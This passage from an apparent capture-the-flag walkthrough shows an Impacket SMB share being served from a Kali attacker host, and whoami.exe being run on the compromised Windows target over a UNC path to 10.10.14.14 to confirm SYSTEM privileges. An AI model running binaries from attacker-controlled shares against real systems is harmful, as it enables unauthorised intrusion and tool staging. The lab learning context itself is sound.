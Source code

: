 
    root@kali# locate whoami.exe
    /usr/share/windows-binaries/whoami.exe



I'll just share that folder over SMB with the command:



    root@kali# smbserver.py a /usr/share/windows-binaries/
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



Now I'll run it and see I'm system:



    C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe
    NT AUTHORITY\SYSTEM



Of course there are other ways I could check, like having access to
write in certain places (`system32` for example). Getting `whoami.exe`
is certainly one of the easiest and most definitive methods.





